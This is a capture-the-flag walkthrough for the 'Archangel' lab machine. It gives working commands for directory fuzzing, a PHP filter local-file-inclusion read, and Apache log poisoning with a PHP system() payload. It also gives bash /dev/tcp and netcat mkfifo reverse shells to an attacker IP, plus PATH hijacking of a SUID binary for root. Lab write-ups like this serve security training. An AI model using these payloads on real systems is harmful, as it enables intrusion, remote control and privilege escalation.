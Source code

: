## Archangel

#### Scan
```
nmap/*
```

#### Task2
- Find a different hostname
 - Send us a mail -> support@`mafialive.thm`

- Find flag 1
  - Walk-throught
  	```
  	# sudo vi /etc/hosts
  	EXPORT_IP	mafialive.thm
 	```
 - Look for a page under development
	 ```
	 ffuf -w {WORD_LIST} -u http://mafialive.thm/FUZZ
	 ```
 	- test.php

 - Find flag 2
   - phpfilter bypass
	   ```
	   http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
	   ```
	   - echo "{OUTPUT_TEXT}" | base64 -d
	   - Get Second Flag
 - Get a shell and find the user flag
   - Burp Repeater inject
	```
   	GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id HTTP/1.1
	User-Agent: Mozilla/5.0 <?php system($_GET['cmd'])?> Gecko/20100101 Firefox/78.0
    ```
    - Reverse shell payload
    ```
    /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=bash -c ‘exec bash -i &>/dev/tcp/10.9.26.67/1234 <&1’
    ```
    - Reverse Shell payload (URL Encoded)
    ```
    /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=bash+-c+"exec+bash+-i+%26>/dev/tcp/10.9.26.67/1234+<%261" 
    ```

#### TASK 3
- Root Priviliege
```
1. interesting : /opt/helloworld.sh
2. OverWriting Payload : User Escalating
echo “rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc MY_IP 4444 > /tmp/f” > helloworld.sh

[IN MY CASE]
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.26.67 4444 > /tmp/f" > /opt/helloworld.sh

3. Root Escalating
- cd ~/secret
  -  interseting : backup

- Process
cd ~/secret
ls -la
./backup
cd /tmp
echo '/bin/bash -p' > cp
chmod 777 cp
ls -la | grep cp
export PATH=/tmp:$PATH
echo $PATH
cd ~/secret
./backup
```

